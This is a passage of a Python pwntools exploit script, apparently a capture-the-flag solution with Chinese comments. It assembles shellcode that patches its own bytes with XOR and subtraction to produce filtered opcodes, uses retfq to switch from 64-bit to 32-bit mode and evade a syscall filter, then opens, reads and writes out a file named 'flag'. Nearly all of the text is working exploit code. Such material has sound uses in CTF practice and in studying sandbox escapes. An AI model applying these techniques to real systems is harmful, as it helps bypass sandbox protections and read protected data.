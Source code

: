 ```python
        push 0x5c
        pop rcx
        xor byte ptr [rbx+0x50], cl

''', arch = 'amd64', os = 'linux')

code_retfq = asm('''
        /* 算出0x48 */
        push 0x39
        pop rcx
        xor byte ptr [rbx + 0x71], cl
        push 0x20
        pop rcx
        xor byte ptr [rbx + 0x71], cl

        /*
        * 利用无借位减法算出0xcb
        */
        push 0x47
        pop rcx
        sub byte ptr [rbx + 0x72], cl
        sub byte ptr [rbx + 0x72], cl
        push rdi
        push rdi
        push 0x23
        push 0x40404040
        pop rax
        push rax
''', arch = 'amd64', os = 'linux')

code_open = asm('''
        /* open函数 */
        mov esp, 0x40404550
        push 0x67616c66
        mov ebx, esp
        xor ecx, ecx
        xor edx, edx
        mov eax, 0x5
        int 0x80
        mov ecx, eax
''', arch = 'i386', os = 'linux')

code_retfq_1 = asm(''' 
        /* retfq */
        push 0x33
        push 0x40404062 /* 具体数字有待修改 */
        retfq
''', arch = 'amd64', os = 'linux')

code_read_write = asm('''
        /* 修复栈 */
        mov esp, 0x40404550 /* 有待修改 */

        /* read函数 */
        mov rdi, rcx
        mov rsi, 0x40404800
        mov rdx, 0x7a
        xor rax, rax
        syscall

        /* write函数 */
        mov rdi, 0x1
        mov rsi, 0x40404800
```